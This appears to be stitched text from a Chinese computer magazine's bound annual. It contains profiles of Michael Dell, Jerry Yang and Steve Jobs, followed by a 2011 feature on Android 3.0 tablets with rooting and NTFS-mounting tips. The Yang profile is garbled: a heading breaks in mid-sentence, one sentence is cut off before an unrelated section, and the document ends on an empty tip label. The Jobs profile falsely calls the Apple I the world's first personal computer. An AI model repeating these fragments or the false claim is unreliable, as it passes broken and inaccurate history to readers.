于是，戴尔决定休学，一心投入创办的公司。当时，286微处理问世，戴尔的攒机工作大为简化。戴尔开始独立设计和制造自己品牌的计算机。戴尔深信，最佳的电脑经营模式便是为客户提供“量体裁衣”的服务，因为只有这样才能让用户使用到切合其需求的产品。这种直接销售和按单定制的模式在当时一直是被嘲笑的对象，因为，所有的厂商都无法想象如何越过零售商，把PC直接卖到消费者手中，他们都认为这无疑是天方夜谭，消费者根本无法接受这种方式。
20世纪80年代中期的某一天，20岁刚出头的戴尔在英特尔美国销售主管卡尔·埃弗雷特的安排下拜访见了英特尔CEO安迪·格鲁夫，声称与英特尔达成一笔批量购买芯片的合同。听了戴尔的直销的想法，格鲁夫认为这不过是个乳臭未干的孩子，就敢在自己面前狂言。结果，格鲁夫把埃弗雷特臭骂了一顿。“为什么你非要把我的时间浪费在一个小孩身上？”安迪的想法跟大多数人一样，他们不相信有人会通过打电话来买电脑。埃弗雷特事后回忆说，不久后他就转投到了戴尔旗下。
1988年6月，戴尔公司公开上市，短短四年，从一千美元和一间大学宿舍，戴尔创造了一个上市公司的奇迹。20世纪90年代，戴尔公司的发展如同脱缰野马，收入平均年增97%，利润更是高达166%。对戴尔来说，唯一的任务就是增长。1996年，戴尔公司在线销售开通，戴尔开始了网上直销，1999年，日均交易额达到1800万美元，占该公司第一季度总销售额的30%。一不小心，戴尔又成为了电子商务的杰出代表。2001年，戴尔在第一季度的全球PC市场份额达到12.8，成为全球最大的PC制造商，这是戴尔第一次从当时的康柏头上夺去戴了7年的桂冠。2002年，惠普收购康柏，一度成为全球最大的PC制造商，但是之后很多年第一名的位置一直在惠普和戴尔之间轮转。
戴尔创造了一种另类的成功模式，它没有强大的技术研发，没有不停的创新，而只是依靠一种商业模式。为此，惠普曾经的CEO卡莉曾表示“戴尔只是一家低技术的公司”，并批评戴尔研发经费不足。对此，戴尔先生颇不以为然。他反击道：“我们投入1个美金研发会产生出5个美金的效益，我们的竞争对手却做不到。”不过戴尔也表示，他更愿意将研发委托给合作伙伴，“事实证明这种模式很成功。”
**功成身退到复出**
2004年3月4日，戴尔辞去CEO职位，由总裁兼首席营运官凯文·罗林斯接任。在戴尔公司正如日中天之时，戴尔交出了CEO的权杖，但是罗林斯并没有创造奇迹。尽管早在2005年，罗林斯就针对持续下滑的业绩采取了一些行动，包括开设直营店战略、结盟AMD等，但这些举措并没能成功挽救戴尔公司日益下滑的业绩。华尔街投资者对凯文·罗林斯的不满情绪与日俱增。2007年1月31日，凯文·罗林斯辞去CEO职位，并同时辞去在公司董事会所任职务，戴尔重新担任CEO。
其实，把下滑归咎于罗林斯，显然是不公平的。PC为主的产业发展趋势放缓，而戴尔的直销模式也开始遭遇“瓶颈”。回归后的戴尔开始了铁腕整治，他首先向全体员工发邮件，痛斥了自上而下的官僚主义，然后开始消减管理人员，控制公司运营成本，缩减非核心业务，重新确定优先发展的业务，实施聚焦战略。
接下来，戴尔就带领公司开始了艰难的转型。除了控制成本、提升服务，戴尔努力扩展产品线，戴尔似乎并不急于重回PC老大的位置，反而把重心放在了开拓商业、行业市场，同时更加强了更有利可图的业务领域，如安全解决方案、服务和存储等，希望切入利润更高的其它领域。其实早在2002年，戴尔公司就公开表示，年底前将推出自主品牌的打印机产品，在惠普的传统地盘上分食。打印业务一直是惠普的摇钱树，据瑞士信贷波士顿第一银行预计，2002财年，打印业务可为惠普创造28亿美元的利润，足以抵消它在PC、服务器、存储设备上的亏损。
2011年，戴尔在接受采访的时候表示，戴尔的重点已经从PC转移到其他领域，不再仅是PC公司。他透露，由于去年改进供应链、削减低利润率的产品、投资服务领域等，戴尔业绩实现健康增长，今年戴尔将继续向服务和解决方案公司加速转型。“PC目前只占到公司毛利率的三分之一”，戴尔说。
在4月7日举办的2011戴尔技术论坛上，到场观众几乎听不到任何PC类议题，平板电脑算是戴尔唯一主动提及的和PC相关的产品，其余的全是解决方案：下一代数据中心的解决方案Vostro；戴尔在智能数据管理方面的解决方案，即电子邮件系统以及文件归档的解决方案；下一代终端客户的解决方案，即虚拟桌面的解决方案。
业界普遍预测，戴尔正在效仿IBM和惠普，向IT服务转型。2009年9月21日，戴尔以约39亿美元收购了美国知名的IT服务商—佩罗系统公司(Perot Systems)，这也是戴尔历史上最大规模的收购。但是，在企业级IT服务领域，戴尔存在着明显的“软肋”，IBM可以提供从产品方案到服务的一体化解决方案；惠普把自己定位成为IT平台提供和管理商。而且，IBM和惠普都在四年前就推出了针对企业级市场的整体战略理念并花大力气进行推广。IBM的“随需应变”、“智慧的地球”和惠普的“动成长企业”，已经让不少大企业客户耳熟能详。尽管戴尔现在也要做解决方案提供商，也提出了企业级市场战略—“可扩展企业战略”。然而，戴尔给人的感觉强项还是PC，服务器等单个硬件产品而不是解决方案。尤其是，相比IBM、HP等，戴尔始终没有自己叫得响的软件。
但是，现在看来转型的方向依然不明，戴尔也一直没有明确表示过，可能，这对戴尔来说，也正在摸索中。对于戴尔的回归，从业绩上来看，似乎正在逐渐恢复，但是从战略上来看，依然是迷途重重。戴尔能否带领戴尔公司恢复往昔的荣光，甚至开拓出新的局面，我们还要拭目以待。



**杨致远**
**落幕的时代英雄**
提起杨致远，在网络社会可谓无人不知，无人不晓。雅虎公司创始人，# 写论文写出的雅虎

人称“世纪网络第一人”，因为是他开启了人类的“网络时代”。在这个商业时代，热衷于技术、曾带领雅虎进入巅峰状态的杨致远，多少有点悲情，因为是他带领着雅虎走向巅峰与没落。

## 技术狂人造就雅虎辉煌

杨致远曾表示，开始接触互联网，单纯的以查资料为目的，但随着收集站点量和资料的不断增加，感到了查询的不便，就和自己的伙伴 David Filo 开始对存储的资料和站点进行归类和细分。在这个过程中，他们收集到很多自己感兴趣的站点并加入到书签，如科研项目、网球比赛等等，以便于网友查找信息。但随着收集到的站点越来越多，他自己也感到查找起来已不是很方便。于是，他们把这些书签按类别进行整理，每个目录又容不下时，再细分成子目录，并放到网络上共享，不久，他们的网站就招来了许多用户，受到了极大的关注和广泛的欢迎。由于杨致远热衷于技术，再加上网友不断反馈信息，且还有不少人提出一些建设性意见，促使雅虎的内容不断完善。

## 塞梅尔的噩运还是雅虎的劫数？

2001年互联网泡沫破灭后，塞梅尔结束了在好莱坞长达24年的职业生涯，跳槽到正值亏损的雅虎，并且在领导雅虎专注广告和媒体等核心业务的转型中成绩显赫。但随着谷歌在搜索领域异军突起，MySpace、Facebook 等社交网站的纷纷崛起，塞梅尔并没有能够及时制定有效的应对措施，让雅虎从顶峰持续下滑。

2007年6月，塞梅尔因公司业绩长期低迷被迫下台，杨致远再度出山担任 CEO，并对未来充满信心：“我已经做好了准备，并且深信，我们有能力将雅虎带入一个新的发展阶段。”

杨致远复出，便对外界宣称，自己需要一百天时

## 回天乏力，悲情出走

拒绝微软的收购，却不能带雅虎走出低谷，也不能给雅虎的未来指明一个方向。许多曾经深受他启迪的网络企业家不得不承认，旧网络时代的英雄已经谢幕了。



# 乔布斯：辉煌和无奈

当一个英雄创建了一家成功的企业时，资本为之捧场；当他特立独行的性格，影响了公司的和谐时，资本把他轰出门户；当他力挽狂澜挽救这家企业于不倒时，资本为之疯狂；而当他个人的健康问题不断成为公司“负债”时，资本又准备抛弃他。

这就是孤独无奈、几度鬼门关、颇具传奇悲凉色彩的英雄，苹果公司首席执行长史蒂夫·乔布斯。

## “讣文”已备，抱病艰难“回归”

今年6月6日，世界瞩目的苹果全球开发者大会如期开幕，当病休中的苹果 CEO 乔布斯突然重返演讲台，全场5200名与会者顿时爆发欢呼声。

但此次，乔布斯并没有给大家带来 iPhone 5 或者 iPad 3，而是准备把苹果带到“云端”，应用云计算。据与会者形容，乔布斯当时依然穿着招牌黑衬衫、牛仔裤，很瘦，但看来还有精神，露出久违的开心笑脸。

而在半年前的2011年1月17日，传来一个令全球 IT 界和苹果“粉丝”十分揪心的消息：“苹果教父”乔布斯又“倒”了。

时年56岁的史蒂夫·乔布斯通过邮件向公司员工传达一个令人“心酸”的消息：董事会已经批准了他的病假，首席运营官蒂姆·库克将暂时负责所有苹果的日常运营。

令人纠结迷茫的是，与往年不同，此次乔布斯并未给出归队时间，似乎要无限期请病假。而上次2009年1月，乔布斯在信中明确说将病休5个月。因此今年初乔布斯又要告退，与上次仅相隔不到两年，由此给世人留下一连串问号与担忧。

而受乔布斯病退消息的影响，当时全球苹果股价都大跌！

然而看衰，乔布斯即使重病缠身，但对苹果重头产品，他仍是闲不住，毅然亲身推介。今年3月，他就曾从休养中出关，亲自发布 iPad 2，6月6日又再度出山，可谓“鞠躬尽瘁”。

不过令人啼笑皆非的是，相比 iCloud、iPhone 5 等新产品，此次6月露脸，媒体对乔布斯的健康状况并没那么乐观了，美联社、华盛顿邮报等名媒甚至已预备乔布斯的讣文。

## 病魔缠身，起起伏伏

当一家公司的命运需要被不断面临生命危险的人挽救，我们很难说这究竟是一种幸福，还是一种悲哀。

熟悉乔布斯的内部人士透露，乔布斯从中学开始，身体就一直欠佳。而他的病变开始大规模引起世人关注是在2003年，当年10月，《财富》杂志首次披露乔布斯被查出患有“胰腺细胞神经内分泌肿瘤”。之后，乔布斯便成为全球媒体关注的“健康式的企业领袖”，关心他甚至超过苹果。当时，苹果并未证实，但那时乔布斯已悄然“休息”。乔布斯回忆道，当确诊为胰腺癌时，医生告诉他只能活6个月，而在当时乔布斯治疗期间，跟随多年的库克首次代替乔布斯执掌苹果。

2004年8月一天，乔布斯首次亲自公开病情，称已成功进行手术切除了癌变部位，将不需要化疗或者放疗。当时乔布斯49岁，乔布斯在2004年9月返回公司。

而在库克代理公司日常运作的几个月期间，苹果股价大涨20%，这主要得益于 iPod 音乐播放器的活力。

复出，全场合着鼓掌三分钟，世人期望苹果再有“惊艳的表现”。

## 传奇式人物，成就了“苹果教父”

乔布斯生于1955年，是一个富有传奇式、历经几多挫折的伟大人物。跟比尔·盖茨一样，乔布斯大学没毕业就出来混了。
辍学之后的乔布斯一直梦想有一台自己的计算机。他经常和他的初中同学沃兹涅克一起，在自家的小车库里琢磨电脑。1976年初，他们俩终于动手拼装成功一台电脑，这个其貌不扬的东西就是世界上第一台个人电脑，俗称“Apple I”。
1976年4月愚人节那天，乔布斯和沃兹涅克达成合伙协议创立公司，约定二人各自占有合伙企业45%的权益，其余10%由乔布斯的朋友韦恩持有。公司的名称由偏爱吃苹果的乔布斯一锤定音为“苹果”。
1977年，乔布斯推出凝聚着他的心血的第二代苹果个人电脑 (Apple II)，由于沃兹涅克天才的设计和乔布斯天才的推销谈判能力，他们从比特商店得到一个50台苹果计算机的订单，这一总值25000美元的订单，从此奠定苹果电脑公司的良好开局，也是乔布斯个人史上的第一桶金。苹果以其独有设计和低价策略，开始横扫全美个人电脑市场。然而因专断独行，偏执张狂，乔布斯日益遭至投资方和资本排挤。
1985年，苹果聘用一位更富有经验的经理人来管理这家企业，在一场权力斗争之后，和新浪创始人王志东一样，乔布斯被挤下 CEO 的位置，被扫地出门，离开自己所创办的公司。
此时乔布斯开始了自己的二次独立创业，公司名字就叫 Next，1986年乔布斯又以1000万美元收购 Lucasfilm 旗下动画工作室。
然而十年河东，十年河西，情势陡转急下，到了1997年苹果濒临破产边缘，成了不折不扣的“烂苹果”。1997年8月，在苹果公司众多的员工和股东的期盼下，乔布斯忍辱负重，重归苹果。然而当时，硅谷和华尔街几乎所有人都认为乔布斯和其之前共同创立的苹果公司已走上绝路，未来苹果已与科技绝缘了。
但在业界一片讥笑声和怀疑中，乔布斯以一己之力，力挽狂澜，卷土重来，让苹果重生，一直执掌苹果至今。
回归苹果之后，乔布斯引领公司迈入被业界公认的“苹果10年”。他大抓产品研发与创新，在产品外观时尚上做足功课，每一代苹果电脑都会站在当时的潮流顶峰上。从 iPod 到 iPhone 再到 iPad，以及不断的版本升级，乔布斯干什么火什么，引领全球 IT，在美国甚至全世界形成了一种“苹果文化”，拥有了无数的忠实粉丝，乔布斯也成了“苹果教父”。
乔布斯在他的职业生涯里一直坚定地执行着苹果公司的信条“Think Different”——特立独行，偏执冷峻，严厉苛求，绝不妥协，管理风格火爆。许多苹果员工不敢在电梯内遇见乔布斯，因为他会连续发问：“你哪个单位的？做什么的？你对公司有何想法？”若答得不好，走出电梯时，乔布斯可能会说：“我们不再需要你了”，即被炒鱿鱼。
然而这正是苹果成功和那么多粉丝为之疯狂的真正原因。
2010年5月，在 iPad 热销的推动下，苹果市值终于超越微软，成为全球市值最高的科技公司。iPad 是乔布斯日臻完美的职业生涯的巅峰之作，被认为是乔布斯09年6月病愈复出后，苹果最大的胜利。
2010财年，苹果销售额翻番至652亿美元，而2011年第一季度苹果营收267.4亿美元，同比高增71%，净利润达60亿美元，同比增长78%，再创历史新高。

## “接班人”再成焦点，谁的“阳谋”？

对于很多人来说，失去乔布斯的苹果将不再是“苹果”。
在乔布斯几次病假期间，苹果总是由库克负责日常运营事宜。而今唯一需要打问号的就是，如果乔布斯在很长一段时间内无法回到苹果，或者说不断在病退和回归中沉浮，那么将来苹果的新产品，是否会一如既往的富有创新、引领时尚？
哈佛商学院教授大卫·约菲称，乔布斯具有奇迹的两方面特质：工程师的头脑+艺术家的灵感，不可复制。但目前看来，严峻的“生命压力”可能会迫使苹果尽快披露二号人物库克的继承计划，以此平息各方猜忧。
今年5月，纽约时报又透露了乔布斯“病危”，并“替”苹果公布接班人选，“证实库克是乔布斯的继任者”，然而乔布斯已懒得再理了。
但是，现在有越来越多的证券分析师表示，乔布斯的锋芒时下反成为苹果摘不掉的“负累”，身体更成了“苹果的负债”，苹果已经不再需要乔布斯了。乔布斯的几次休假对于苹果的产品影响甚微。2009年乔布斯病假5个月，当年苹果更新了多达32款型号；而在今年1-6月，乔布斯病休时，iPad 2同样诞生，地球照转。
美联社一名资深记者则认为，乔布斯几次病退后再回归，进进出出，今后不知还有多少回归，这或是一种“阳谋”，通过大家极大关注乔布斯的身体状况来博取同情，并掀起对苹果新产品的极大关注和曝光率，而这正是苹果所要的结果。
但是乔布斯过多的“回归”，最终资本、投资者可能难于再忍受下去了，苹果粉丝也会渐失激情。

策划/《电脑爱好者》编辑部
撰稿/吴勇毅 李云峰


# 超越 iPad？Android 3.0 这靠谱行！

iPad 1 的横空出世让我们重新认识了平板电脑，而 iPad 2 的再度出击则让这个世界真正进入了“无平板，不潮流”的时代。当然，并不是所有人都是“果粉”，当你看着别人把玩 iPad 而手痒时，有没有考虑过 iPad 的代替品？如果你有着类似的想法，不妨将目光转移到搭载谷歌重新打造的 Android 3.0（代号“Honeycomb”）系统的平板电脑身上来吧，因为它们才是最有机会超越 iPad 的那“一批人”！

## 第一批上市的 Android 3.0 平板们

所谓“工欲善其事，必先利其器”，想了解 Android 3.0 系统，首先自然要从预装此系统的产品谈起。目前国内可以买到的 Android 3.0 平板电脑主要以一线品牌的产品为主，接下来咱们就来逐一了解：

### 华硕 EeePad Transformer TF101

华硕 TF101 俗称“变形金刚”，与 Docking 键盘底座相连后可以充当笔记本的角色。这款产品采用了 IPS 屏幕，显示效果值得肯定，680g 的重量也是目前已上市 Android 3.0 平板中最轻的。可以说，华硕深知平板电脑的“软肋”：输入体验不佳，因此配套推出了 Docking 键盘底座让 TF101 有机会变身真正的笔记本电脑，加上底座的 TF101 重量也不过1.3kg，和上网本相仿。

### ACER Iconia Tab A500

ACER A500 采用了金属拉丝的机身，很有“金属范”，但这冷冰冰的质感换来的则是沉甸甸的分量，765g 的重量并不算轻。虽然 A500 的便携性表现一般，但扩展功能却是已经上市的 Android 3.0 平板中最给力的：通用性的 Micro USB 接口，标准的 USB2.0 接口支持 Host 功能，机身底部同样预留了多媒体底座的数据接口。此外，A500 的性价比很高，16GB WiFi 版仅售3299元，32GB 也不过3499元。

### 摩托罗拉 Xoom

作为最早上市的 Android 3.0 平板，摩托罗拉 Xoom 在做工方面非常出色，借助摩托在 Android 手机领域的名气，让 Xoom 在专业论坛始终保持着颇高的人气。可惜 Xoom 的定价较高，32GB WiFi 版的售价高达4999元，比同规格的 iPad 2 还贵，因此才有了今天叫好不叫座的尴尬，随着其他一线品牌平板新品的“乱入”，相信距离 Xoom 大幅降价的日子已经不远了。

### 三星 Galaxy Tab 10.1

三星 Galaxy Tab 10.1 是最轻薄的 Android 3.0 平板电脑，8.6mm 的机身厚度，565g 的重量比 iPad 还便携。与同类产品相比，Galaxy Tab 10.1 内置了高达800万像素的后置摄像头（前置为200万像素），夸张的7000mAh 大容量锂电池的续航能力也值得期待。

### 小提示

除了这些已经上市的产品之外，东芝、LG、优派等厂商也即将推出 NVIDIA Tegra 2 + Android 3.0 的平板产品。随着更多 Android 3.0 新品的上市，相信对之优化的软件和游戏也会逐渐变多，从而真正释放软硬件平台的潜力。

硬件参数比较 华硕 EeePad TF101 / ACER Iconia Tab A500 / 摩托罗拉 Xoom / 三星 GALAXY Tab 10.1

| 硬件参数比较 | 华硕 EeePad TF101 | ACER Iconia Tab A500 | 摩托罗拉 Xoom | 三星 GALAXY Tab 10.1 |
| :--- | :--- | :--- | :--- | :--- |
| 屏幕尺寸 | 10.1英寸 | 10.1英寸 | 10.1英寸 | 10.1英寸 |
| 内存 | 1GB | 1GB | 1GB | 1GB |
| 存储空间 | 16GB/32GB | 16GB/32GB | 32GB | 16GB/32GB |
| 摄像头(前/后) | 120万/500万 | 200万/500万 | 200万/500万 | 200万/800万 |
| 体积 | 271×177×12.98mm | 260×177×13.3mm | 249.1×167.8×12.9mm | 256.7×175.3×8.6mm |
| 重量 | 680g | 765g | 730g | 565g |
| 价格 | 3499元起 | 3299元起 | 4999元起 | 即将上市 |

与手机所用的 Android 2.x 系统相比，3.0版的 Android 系统针对平板电脑的大屏幕进行了大刀阔斧的改革，桌面可以安置更多的系统插件和应用程序，整体的 UI 设计也更为华丽。3.0系统默认就提供了五屏桌面空间，点击屏幕两侧或者横向拖拽都可在相邻的界面之间切换，在界面滑动时还可以看到淡蓝色的虚拟边框，拖动时还带有立体效果，滑动的感觉非常流畅。

A. 3.0系统充分利用了屏幕四个角落的空间，比如在左上角就固化了“谷歌搜索”和“语音指令”的虚拟按键，支持键盘和语音两种输入方式。需要注意的是，“语音指令”并不是每款产品都支持，比如华硕 TF101 的界面上就没有这个功能的图标。

B. 3.0系统将“所有程序”和“编辑桌面”的快捷方式设计在了屏幕的右上角，点击“应用程序”的图标就可进入程序列表页，按住某个程序的图标就可将其拖拽至底部五个桌面缩略图的任意一个区域。如果你想卸载程序也无需进入设置的应用程序管理界面了，只需将程序图标拖拽到右上角的“垃圾桶”就可完成卸载，非常方便。

点击“+”号的按钮可直接进入桌面的编辑界面。在这里我们可以为主屏添加小插件、添加应用程序快捷方式或者更换壁纸，需要注意的是，从3.0系统开始引入了插件“面积大小”数字化的一个新概念，每个插件都会被量化成“长×宽”的比例，比如“4×3”或“4×1”，分别代表占用主屏“横4纵3”和“横4纵1”的空间。在横屏的状态下，3.0系统的桌面提供了“8×7”格空间，了解了这些有利于我们打造出更美观更合理的桌面。

C. 3.0系统参考了 Windows 快速启动工具栏的思路，在底部左下角设计了返回、主页和最近打开的程序列表（程序切换）的虚拟快捷键，横屏状态下可显示五个最近打开程序的缩略图（竖屏可显示七个）。当运行程序时，最近打开的程序列表右侧会出现临时菜单选项，按此按钮就会弹出相关程序的菜单设置。在我们玩全屏游戏时底部的图标会自动隐藏，轻触一下就可显示出来。

D. 用过 Android 手机的用户一定对屏幕顶端下拉式的系统通知栏印象深刻，而3.0系统则将系统通知栏移到了屏幕的右下角，可以显示当前时间、电量柱状图和其它的通知内容，轻触就会弹出更详细的设置窗口。这种设计很像 Windows 系统下的托盘通知区，操作起来比下拉式列表更顺手。

### 小提示

利用程序切换的快捷键，3.0系统可以实现更便捷的多任务模式，比如当我们在运行某款游戏时，需要上网查询攻略，此时只需先点击主页键返回桌面（游戏进入暂停状态），运行浏览器上网查资料，点击程序切换键便可方便地返回到刚才游戏，不会影响到游戏进度。

## Android 3.0 系统好用吗？

了解 Android 3.0 的系统结构之后，接下来就轮到本专题的“正餐”了：Android 3.0 系统到底好用吗？想知道这个问题的答案，首先还要从与 Android 3.0 系统配对的硬件谈起。

### 统一的硬件标准

由于 Android 的开源，导致了手机阵营出现了硬件平台碎片化的窘境，一款游戏想在三星、高通、德州仪器等硬件平台上正常运行，往往要单独开发针对不同平台优化的定制版本，兼容性很难得到保证。此次谷歌限制了 Android 3.0 的开源，目前相关的平板电脑也只有 Tegra 2 这么一种硬件平台，有利于形成一套规范的软件开发标准，彻底解决硬件平台碎片化导致的程序兼容性问题。

Tegra 2 是 NVIDIA 针对高端手机和平板电脑量身定制的一颗双核 ARM Cortex-A9 处理器，它基于40nm 制程设计，集成 NVIDIA OpenGL ES 2.0 GPU，甚至可以运行虚幻3引擎！Tegra 2 的平均功耗为500mW，最高功耗也仅有1.5W，可按需关闭图形及 CPU 核心，从而获得更出色的续航能力。如果你想了解更多有关 NVIDIA Tegra 2 的资料，请登录以下网址查看：http://tinyurl.com/69z32j5

### 上网 Flash 都是浮云

Android 3.0 内置的浏览器支持多标签查看，有点类似于 Google 的桌面级浏览器 Chrome，在安装 Flash 10.3 插件后对网页 Flash 内容的支持更为出色，拖动起来的速度非常流畅，而且1280×800像素的屏幕在浏览网页时更加舒适，无需缩放即可清晰显示所有内容。以华硕 TF101 为例，运行《帝国文明》这类大型网页 flash 游戏时基本流畅，略微有一点点延迟，拖动地图时有轻微的丢帧感觉，看来 Adobe 的 Flash 10.3 插件还不够完美，但较 Flash 10.2 插件时的流畅度已经有所提升了，期待 Adobe 未来的 Flash 插件可以让平板电脑也能实现电脑般绝对流畅的效果。

### 游戏表现相当给力

Tegra 2 + 1GB 内存是当前 Android 3.0 平板电脑的“标准配置”，基本代表了 Android 平台的最强音。除了少数无法运行的游戏外，其它游戏的运行速度可以用非常流畅来形容，但一些竞速类游戏如《熊猫卡丁车》、《超音速飞行》等会出现重力感应失效的问题。为了更好展现 Tegra 2 的游戏实力，NVIDIA 也为其搭建了专门的 Tegra Zone 游戏商店，提供了多款针对性优化的游戏，包括《武士2：复仇》、《地牢守护者》、《银河风云2》、《伟大战役：中世纪》、《水果忍者 THD》、《疯狂怪物》等。有 NVIDIA 这块金字招牌，相信今后会有更多经典游戏会推出 Tegra 2 的优化版。

### 优化应用相对匮乏

Android 3.0 的软件兼容性还算不错，绝大多数 Android 2.x 的软件都可以在3.0系统下运行，利用“Spare parts”也可让很多不能全屏的程序全屏显示（具体设置方法请参考后文）。联想乐Pad、摩托 XOOM、华硕 TF101 和 ACER A500 等产品内置的支持1280×800显示的软件网上都可以下载，类似新浪微博、QQ 和优酷等等常用软件都有 Pad 定制版，基本应用并不缺乏。但除了这些产品预装的软件外，“菜市场”中真正为 Android 3.0 优化的软件非常稀少，所谓的全屏显示也只是强制性地拉伸，画面的清晰度会受到影响。

### 高清播放是软肋

虽然 NVIDIA 官方的资料显示 Tegra 2 具备强大的1080P 回放能力，但 Tegra 2 在实际的高清视频体验上的表现却差强人意，借助 Rockplayer 和 MoboPlayer 这类 Android 平台上最强大的全格式播放器，可以流畅播放720P 级别的视频（RMVB 封装格式会略有卡顿），但在播放1080P 视频时则会出现严重影音不同步和卡顿的现象。单就高清播放能力而言，Tegra 2 尚不及千元级平板电脑的解决方案。当然，这也可能是目前还没有针对 Tegra 2 进行优化的播放软件出现。

### 未来值得期待

Android 3.0 是谷歌首次专门为平板电脑定制的系统，在1280×800分辨率的屏幕里可以容纳更多的程序图标与特色插件，打造更美观个性的主题效果。贴近 Windows 设计理念的底部快速启动栏与通知栏的设计，让操作变得更简单更快捷。总之，Android 3.0 在系统结构的合理性与界面的表现力方面已经完全超越了 iPad，操作体验远非采用 Android 2.x 系统的平板电脑可比。

由于谷歌并不允许厂商对 Android 3.0 系统的桌面结构进行个性化定制，意味着类似 HTC Sense 和三星 TouchWiz 特色的用户界面将不会出现在平板产品身上。不同品牌的产品在系统的操作体验上基本一致，只要你用过一个品牌的产品，其它品牌的平板也可轻松上手。既然硬件和系统已经同质化，为了增强产品的竞争力，厂商也只能从外观设计、特色功能、优化系统等方面入手，以图吸引更多消费者的关注。支持键盘底座的华硕 TF101、配备 USB 接口的 ACER A500、超轻薄设计的三星 Galaxy Tab 10.1，都是厂商在某方面“差异化”设计的产物。

当然，作为新生事物，Android 3.0 系统和 NVIDIA Tegra 2 硬件平台都存在一些问题，前者对部分2.x下的程序兼容性不佳，针对3.0优化的游戏也不多，专用的应用程序尚处于匮乏的状态；而后者虽然可以为 Android 3.0 系统带来更流畅的体验感受，但对高清播放的支持却很不给力，无法流畅播放1080P视频，还真有点对不起标配的 HDMI 输出端口呢。考虑到 iPad 上市之初也面临过类似的应用匮乏的窘境，随着 Android 3.0 平板阵营的不断扩大，针对 Android 3.0 系统和 NVIDIA Tegra 2 优化的程序会越来越多。

### 小知识：Tegra 2 之外的双核平板方案

目前已经量产的双核方案有 NVIDIA Tegra 2（1GHz，应用于手机和 Android 3.0 平板）、高通 Snapdragon APQ8060（1.2GHz，应用于惠普 TouchPad）、德州仪器 TI OMAP 4430（1GHz，应用于黑莓 Playbook）和三星 Exynos E4210（1.2GHz，目前尚未有平板采用，只应用于三星 i9100 手机）。

### 小提示

如果你也想在线视频，建议安装从 Xoom 或乐Pad 中提取出来的优酷、奇艺、搜狐等客户端，用 Android 3.0 自带的浏览器看在线视频的清晰度和流畅度都比较一般，而且还有载入视频前那烦人的广告。

### 小提示

随着 Android 3.0 平板电脑的热卖，很多论坛都出现了相关资源的整理贴，如果你想了解都有哪些软件或游戏可以在3.0系统下完美运行，请登录以下网址查看：http://bbs.gfan.com/android-1512385-1--3.html

## CFan 教你玩转 Android 3.0

Android 3.0 虽然还存在很多不足，但只要我们肯动点脑子，类似输入体验不佳、游戏无法全屏、无法播放1080P视频的遗憾都是可以弥补的，不相信？那咱们就接着往下瞧！

### 输入不够给力怎么办？

很多同学都会在平板电脑与上网本之间犹豫，在欣赏前者出色便携性的同时，又在垂涎后者的输入体验。如果你也有类似的犹豫，不妨考虑一下扩展的键盘底座，弥补平板电脑那虚拟键盘所无法带来的输入快感。而华硕为 TF101 所准备的 Docking 键盘底座，着实值得其他品牌学习。

华硕 TF101 采用了特殊的数据传输接口，并不是标准的 Micro USB 接口，以牺牲通用性为代价换来了安装 Docking 键盘底座的能力。不要小看 TF101 专用的键盘底座，它采用了和华硕笔记本一样的巧克力按键设计，敲击手感非常舒适，触控板也可代替鼠标操作。同时键位设计也特别为 Android 系统做了优化，加入了类似“返回”、“搜索”、“Home”等快捷键，甚至还单独设有一枚用于截图的快捷按键。而 USB 接口和读卡器的加入，则弥补了 TF101 本身扩展性不足的遗憾。

值得一提的是，华硕 TF101 的键盘底座还内置大容量的锂电池，加上 TF101 本身自带的电池可以提供16小时的续航能力！当 TF101 与键盘底座相连后，TF101 的角度也可任意调整，使用方式就和普通的笔记本一样，闭合后可以方便放在包包里。其实键盘底座并不是华硕 TF101 的专利，但类似产品的灵活度和扩展性远不如 TF101 专用的底座。

### 没有键盘底座怎么办？

如果你购买的不是华硕 TF101，则可以考虑选择无线的蓝牙键盘，或者利用机身上的 USB 接口“武装”外置键盘。目前 Tegra 2 + Android 3.0 的平板基本都标配，或者可以通过转接器的形式用上 USB 接口，获得 USB Host 功能，在此功能的支持下，普通的 USB 键鼠（有线无线均可）就都能为 Android 3.0 平板所用了。购买成本低，通用性也更强。只是这种通用的键盘本身只有打字功能，缺少对 Android 系统的优化，无法像底座那样固定平板调整屏幕，更无法为产品提供更持久的电力。

由于平板电脑通常仅配备一组 USB 接口，笔者建议大家使用共享一个适配器的2.4G 无线键鼠套装，以多彩2100G 套装和 ACER A500 平板电脑为例，将适配器插入 A500 的 USB 接口上，系统会自动识别设备，其中键盘可以实现即插即用，切换中英输入只需按下“Shift+空格键”。但想使用鼠标，还需借助另外一款软件“Mouse.apk”（下载地址：http://u.115.com/file/dnh95pts）。在平板电脑上安装此软件并运行，点击“Start”按钮后鼠标就能被正常识别并使用了。需要注意的是，Mouse.apk 需要破解 Root 权限后才能使用，目前常见的几款 Android 3.0 平板都有各自的 Root 方法，大家可以网上搜索尝试。

### 内置存储空间太小怎么办？

平板电脑内置的存储空间大多只有16GB/32GB，对于喜欢看漫画和电影的同学来说根本不够用。选择大容量存储卡吧，价格也不便宜，此时最具性价比的解决方案就是外置的2.5英寸移动硬盘，可惜 Android 3.0 系统的 USB Host 功能只能识别 FAT32 格式的存储设备，而移动硬盘通常则为 NTFS 格式（可以保存单个大于4GB容量的文件），当平板电脑遭遇 NTFS 格式的移动硬盘，如何才能保证硬盘被正确识别并使用呢？

同样以 ACER A500 为例，进行下面的操作前同样需要先 Root 设备，同时还需要一些配置文件（下载地址：http://u.115.com/file/e6krl4rp）。将下载的“ntfs.rar”解压缩，先拷贝到平板电脑内置的空间或存储卡上。接下来安装 RE 文件管理器（Root Explorer，下载地址：http://www.androidonline.net/soft/960.html），该软件的特色就是可以在 Root 的设备上对系统文件夹进行读写操作。用 RE 文件管理器找到刚刚解压后的文件，点击屏幕左下角的菜单键，先选择“全选”再选择“复制”；接下来定位到“system/xbin”目录并将其设置为“读写模式”，再将上述文件复制到此目录内即可。

利用 USB 数据线将移动硬盘与平板电脑相连。

特别话题
《电脑爱好者》·合订本

安装并运行刚才压缩包中的“NTFSMount.apk”，根据系统提示赋予其权限，在软件界面中依次选择“Select Device→sdb1→Mount”，当出现“Mount successful”提示信息后，在“/mnt/USB_storage”文件夹内就能访问该硬盘中的数据了。此时在“设置→存储→USB存储设备”中仍会显示“不可用”，但不会影响我们的使用。在拔下移动硬盘前，记得重新运行“NTFS Mount”并点击“Unmount”按钮（就好像Windows中弹出USB外设一样），否则在重启设备前，再安装移动硬盘时，点击“Mount”按钮会提示“Mount failed”从而无法识别硬盘。

小提示：
